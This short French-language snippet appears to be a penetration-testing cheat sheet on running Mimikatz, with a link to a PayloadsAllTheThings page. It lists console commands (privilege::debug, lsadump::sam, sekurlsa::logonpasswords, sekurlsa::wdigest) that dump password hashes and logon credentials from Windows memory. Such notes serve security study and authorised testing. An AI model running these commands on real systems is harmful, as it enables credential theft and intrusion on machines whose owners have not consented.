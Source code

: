 ### Exécuter Mimikatz:
Dans x64
```powershell
.\mimikatz.exe

mimikatz # coffee
mimikatz # privilege::debug
mimikatz # lsadump::sam
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest

```


Références de commandes, et des infos récupérables par version de Windows :

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

